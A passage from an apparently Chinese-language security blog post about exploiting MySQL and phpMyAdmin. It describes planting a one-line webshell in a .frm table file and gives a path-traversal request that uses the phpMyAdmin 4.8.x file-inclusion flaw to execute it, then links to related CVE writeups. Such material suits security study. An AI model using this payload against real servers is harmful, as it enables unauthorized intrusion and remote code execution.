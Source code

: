可以看到一句话木马已经写入.frm文件
[![1607689127047](mysql提权/1607689127047.png)](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607689127047.png)

之后使用`PHPMyAdmin4.8.x` 版本的文件包含漏洞即可进行利用

```
/index.php?target=db_sql.php%3f/../../../../../../../../../../../../../../C:/phpStudy/PHPTutorial/MySQL/data/test/mysql_shell.frm
```

由于没有该版本，就没有接着复现了

## 其他phpmyadmin版本的漏洞

> phpmyadmin命令执行漏洞:
> [CVE-2016-5734](http://cyzcc.vip/2020/08/12/CVE-2016-5734/#more)
>
> PHPMyaAdmin 本地 `SESSION` 包含 `getshell`:
> [CVE-2018-12613](http://cyzcc.vip/2020/08/13/CVE-2018-12613/#more)

